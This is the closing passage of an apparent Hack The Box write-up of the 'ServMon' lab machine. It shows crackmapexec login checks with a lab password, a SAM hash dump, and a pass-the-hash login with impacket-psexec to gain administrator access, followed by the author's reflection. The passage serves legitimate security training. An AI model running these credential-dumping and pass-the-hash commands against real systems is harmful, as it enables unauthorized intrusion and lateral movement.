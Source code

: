 Now I validate with `crackmapexec` that the account allows me to log in as an administrator, and the next thing I do is dump the hashes of the Workstation accounts. With `impacket-psexec`, I perform a **Pass-The-Hash** attack using the **Administrator** account hash, and I can now access the last flag. Finally, I have succeeded in completing the engagement of the **ServMon** box.

```bash
crackmapexec smb 10.10.10.184 -u oldb0y -p 'oldboy123!$'
# Pwn3d!
crackmapexec smb 10.10.10.184 -u oldb0y -p 'oldboy123!$' --sam

impacket-psexec WORKGROUP/administrator@10.10.10.184 -hashes aa...ee:c8...ee
# :)
```

<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> Another excellent **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** lab that I completed, in which I continue to learn and improve techniques that I didn't know before, because there are countless technologies that one can attack to check whether or not they have vulnerabilities. This machine made me realize that there are many attack vectors that can be exploited if the tools used in a work environment are not properly configured or updated to the latest version. I would like to emphasize again that **[Hack The Box's](https://www.hackthebox.com){:target="_blank"}** **Windows** machines are my weakness and the ones that captivate and entertain me the most. Now I'm going to kill this box to continue my learning with another one.

<br /><br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
